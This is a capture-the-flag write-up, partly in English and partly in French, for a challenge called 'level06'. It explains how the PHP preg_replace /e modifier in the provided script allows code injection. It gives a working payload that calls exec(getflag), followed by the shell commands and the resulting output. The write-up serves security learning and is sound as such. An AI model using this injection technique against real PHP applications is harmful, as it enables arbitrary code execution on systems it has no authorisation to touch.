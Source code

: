 We find in the **home** folder a binary named **level06** and a php file named **level06.php** containing the following code :
```php
#!/usr/bin/php
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);	# Replace "x" with "x"
	$m = preg_replace("/@/", " y", $m);	# Replace @ with " y"
	return $m;
}
function x($y, $z) {
	$a = file_get_contents($y);
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	# The modifier /e takes a replacement string, and substitutes the backslash followed by a number.
	# and executes the resulting string as if it were PHP code
	$a = preg_replace("/\[/", "(", $a);
	# Reaokce [ with (
	$a = preg_replace("/\]/", ")", $a);
	# Reaokce ) with )
	return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```
> The interesting part in the code is <code>/(\[x (.*)\])/e</code> because the **preg_replace** uses the *modifier* **/e** or **(PREG_REPLACE_EVAL)**, which is known to be sensitive to injections (It doesn't even exist in PHP 7.0.0 anymore).

On comprend que le format pour la string recupérée du <code>file_get_contents</code> doit être formatée de la manière suivante:

<code>/(\[x (.*)\])/e => [x {${INJECTION}}]</code>

Injection allows to replace the <code>(.*)</code> with a command, such as **getflag** :

<pre><code>> echo '[x {${exec(getflag)}}]' > /tmp/inject
> ./level06 /tmp/inject
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
</code></pre>


